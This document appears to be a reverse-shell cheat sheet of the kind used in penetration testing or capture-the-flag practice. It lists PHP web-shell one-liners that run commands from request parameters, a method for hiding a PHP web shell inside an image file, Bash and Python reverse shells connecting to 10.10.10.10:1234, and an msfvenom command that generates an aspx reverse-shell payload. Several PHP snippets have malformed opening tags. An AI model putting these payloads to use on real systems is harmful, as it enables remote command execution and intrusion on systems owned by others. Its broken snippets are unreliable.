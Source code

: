 # Reverse Shells

#### PHP Reverse Shells

##### Basic PHP reverse shells

```php
<php echo exec('whoami');?>
<php system("whoami"); ?>
<php system($_REQUEST['wr3nch']); #	works with the post verb
<php system($_GET['wr3nch']); >
```


##### PHP reverse shell in images

```bash
# Using magic bytes
echo 'FFD8FFDB' | xxd -r -p > webshell.php.jpg
echo '<?=`$_GET[wr3nch]`?>' >> webshell.php.jpg
# Using exiftool
exiftool -comment='<?php system($_GET['wr3nch']);?>' \<file_name\>.\<extension\>
```

##### Bash
```bash
bash -c "bash -i >& /dev/tcp/10.10.10.10/1234 0>&1"
```

##### Python
```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### MSFVENOM

##### aspx reverse shell
```bash
# generate an aspx for windows machine
msfvenom -p windows/shell_reverse_tcp LHOST=xxxxxx LPORT=xxxxx -f aspx > exploit.aspx
```

